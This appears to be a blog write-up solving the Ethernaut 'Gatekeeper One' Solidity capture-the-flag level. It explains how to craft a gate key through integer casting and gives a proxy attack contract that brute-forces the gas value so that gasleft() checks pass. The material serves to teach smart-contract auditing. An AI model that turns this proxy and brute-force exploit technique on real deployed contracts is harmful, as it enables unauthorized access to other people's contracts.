



***Gatekeeper One***

Make it past the gatekeeper and register as an entrant to pass this level.

Things that might help:
Remember what you've learned from the Telephone and Token levels.
You can learn more about the special function gasleft()

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

*Let's summarize the requirements laid out before us:*

`require(msg.sender != tx.origin);`
msg.sender must not be the same as the tx.origin, so we'll need to build and deploy a smart contract to act as a proxy.

`require(gasleft() % 8191 == 0);`
the gasleft divided by 8191 must not have a remainder

`require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");`
whatever argument we pass must result in the same value when converting from either `bytes8->uint64->uint32` and from `bytes8->uint64->uint16`

`require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");`
whatever argument we pass must result in a different value when converting from `bytes8->uint64->uint32` and from `bytes8->uint64`

`require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");`
The result of casting `tx.origin->uint160->uint16` must result in the same value as the argument's casting from `bytes8->uint64->uint32`


That last one's pretty weird. Let's start with our dev account and see what that looks like:
`0x789bC753b5405463194Ef1FE607Fbf15328A58bd` is our address, and the 0x indicates this is represented in hexadecimal. The 160 in `uint160` means the data type can store 160 bits of information. 160 bits = 20 bytes. The `uint160` holds 20 bytes of information - The address `0x789...`, as well as all Ethereum addresses, are 20 bytes stored as 40 characters in hexadecimal format, so you can convert an Ethereum address directly into `uint160` and back.

I'm not sure what the easiest way to do all this casting is, but we'll just use ethers.js and write some JS to do the job.

```
import { BigNumber } from "ethers";

var result = BigNumber.from("0x789bC753b5405463194Ef1FE607Fbf15328A58bd").toBigInt().toString(10);

console.log(result);
```

The console spit out `688552871833894150031733809142624065887358572733` as the uint160 decimal representation of my dev address. We'll now need to convert that to the type `uint16`, which is just 2 bytes of data.

In hexadecimal, every two characters is one byte of data. Additionally, we need to know that a conversion to a smaller type strips the higher-order bits, as in the example below:

```
uint32 a = 0x12345678;
uint16 b = uint16(a); // b will be 0x5678 now
```

Let's strip the last four characters (4 bytes, 16 bits) from our address and convert that to decimal: `0x58BD` -> `22717`. These two expressions are equal, but different. I wrote a bit of code to compare the two and deployed it:

```
if(0x58BD == 22717){
    return true;
}
```

That works, so let's build a couple functions to test the other gates as well:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract Hack {

function testGates(bytes8 _key) public pure returns (uint16){
  uint16 gatesPassed=0;
  uint64 key = uint64(_key);
  if(passedGateOne(key)){
    gatesPassed++;
  }
  if(passedGateTwo(key)){
    gatesPassed++;
  }
  if(passedGateThree(key)){
    gatesPassed++;
  }
  return gatesPassed;
}

function passedGateOne(uint64 _key) public pure returns(bool){
  if(uint32(_key) == uint16(_key)){
    return true;
  }
  else{
    return false;
  }
}

function passedGateTwo(uint64 _key) public pure returns(bool){
  if(uint32(_key) == _key){
    return false;
  }
  else{
    return true;
  }
}

function passedGateThree(uint64 _key) public pure returns(bool){
  if(uint32(_key) == 22717){
    return true;
  }
  else{
    return false;
  }
}

}
```

This allows us to call `testGates` with an argument and see how many we've cracked.
Knowing we'll need to pass in `22717` or `0x58BD`, we can simply expand the hex version and play around with the larger values that would be truncated with the casting to a smaller data type. `0x58BD` is 2 bytes, and we can increase this to 8 bytes by padding the front with 0: `0x00000000000058BD`. Because the front doesn't matter, let's add something there to pass the gates: `0x80085000000058BD`



Wonderful! That's all 3 of the normal gates; we know this key will work.

Now we just need to deploy a contract to act as a proxy to fulfill the requirement `(msg.sender != tx.origin);`, and make sure that the `gasleft()` is perfectly divisible by 8191.

This was pretty tough. Basically, there are two ways to approach this; the first is to run a test transaction, debug the execution, then inspect the remaining gas when the `gasleft()` command is executed...

I failed to do this successfully, as the remix vm seems to modify the gas cost in a way that greatly differs from the actual implementation:


The alternative method, the lazy way, is to say 'okay, let's just keep spamming the function until it works'.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface target {
function enter(bytes8 _key) external returns (bool);
}

contract Hack {
function tryKey(bytes8 _key, address _addr)public returns(bool){

for (uint256 i = 0; i < 300; i++) {
            (bool success, ) = address(_addr).call{gas: i + (8191 * 3)}(abi.encodeWithSignature("enter(bytes8)", _key));
            if (success) {
                break;
            }
        }
}
}
```

This approach continues to call the `enter()` function, incrementing the gas value each time. Luckily for me, this worked on the first try, but I had anticipated a need to fiddle with the paramaters here. Also, when testing this, it actually crashed remix in my browser session because the vm ran out of memory.

Anyway...

After deploying the contract, calculating a valid key, and spamming guesses for the gas, we're in, baby! Look at this, I guess this is the challenge OZ thought would make a good benchmark for aspiring contract auditors. I might just apply, but I feel a bit guilty for not guessing the gas cost with surgical precision, ha!

